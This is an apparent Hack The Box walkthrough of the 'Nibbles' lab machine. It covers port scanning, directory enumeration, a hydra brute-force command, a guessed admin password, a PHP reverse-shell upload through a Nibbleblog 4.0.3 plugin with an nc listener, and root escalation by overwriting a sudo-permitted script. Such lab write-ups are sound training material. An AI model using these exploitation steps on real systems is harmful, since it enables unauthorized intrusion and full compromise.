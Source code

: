 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [Apache httpd 2.4.18](#apache-httpd-2418)
	- [Nibbleblog 4.0.3](#nibbleblog-403)
- [Foothold](#foothold)
	- [Guessable Admin Credential](#guessable-admin-credential)
	- [Nibbleblog 4.0.3 Upload](#nibbleblog-403-upload)
- [Privilege Escalation](#privilege-escalation)
	- [Sudo access file overwrite](#sudo-access-file-overwrite)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.75

[+] Openning ports: 22,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.75 -p22,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 12:13 +07
Nmap scan report for 10.10.10.75
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.65 seconds
```

### Apache httpd 2.4.18

Checking source code, there is a directory `/nibbleblog/`.

```
┌──(Hades㉿10.10.14.5)-[0.9:30.3]~
└─$ curl http://10.10.10.75/                                                                                                        
<b>Hello world!</b>
<snip>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

List of hidden in the server after `/nibbleblog/` using gobuster

```
┌──(Hades㉿10.10.14.5)-[1.7:51.3]~
└─$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -q
/install.php          (Status: 200) [Size: 78]
/index.php            (Status: 200) [Size: 2986]
/update.php           (Status: 200) [Size: 1622]
/admin.php            (Status: 200) [Size: 1401]
/.htaccess            (Status: 403) [Size: 306] 
/feed.php             (Status: 200) [Size: 300] 
/sitemap.php          (Status: 200) [Size: 401]
```

### Nibbleblog 4.0.3

I go to `http://10.10.10.75/nibbleblog/install.php`, and it shows the `update` link.

![](images/2.png)

Go to `update.php`, I know the server was running Nibbleblog 4.0.3

![](images/3.png)

Find public exploit using `searchsploit`.

```
┌──(Hades㉿10.10.14.5)-[1.7:43.2]~
└─$ searchsploit Nibbleblog 4.0.3 
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Nibbleblog 4.0.3 - Arbitrary File Upload (Met | php/remote/38489.rb
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### Guessable Admin Credential

At the url `http://10.10.10.75/nibbleblog/admin.php`, It is login page for admin.

![](images/4.png)

I try to brute force with hydra but my ip address have been blocked.

```
hydra -l admin -P /home/kali/directory/rockyou.txt 10.10.10.75 http-post-form '/nibbleblog/admin.php:username=admin&password=^PASS^:Incorrect username or password.'
```

![](images/5.png)

Let's try a manual guess with some common credentials and I got the username `admin`, password `nibbles` to login successfully.

![](images/6.png)

### Nibbleblog 4.0.3 Upload

Follow exploit `php/remote/38489.rb` and searching in the internet, I found manual steps [here](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/).

At [Plugins My image](http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image), upload file `php-reverse-shell.php`.

![](images/7.png)

Execute file upload and get reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:42.7]~/payloads/web-shells/php
└─$ curl 10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

At the listener, I have reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:42.7]~/walkthrough/hackthebox/nibbles
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.75] 47294
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 02:47:49 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

## Privilege Escalation

### Sudo access file overwrite

At home nibbler's folder, I saw a personal.zip file, try to unzip it and read more.

```
nibbler@Nibbles:/home/nibbler$ ls -la
<snip>
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Apr  6 01:12 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

And also, I enum sudo permission execute file `/home/nibbler/personal/stuff/monitor.sh` as root without require password.

```
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Change file `monitor.sh` to spawn bash as root and run it with sudo command.

```
shbbler@Nibbles:/home/nibbler$ echo bash > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler# id
uid=0(root) gid=0(root) groups=0(root)
```
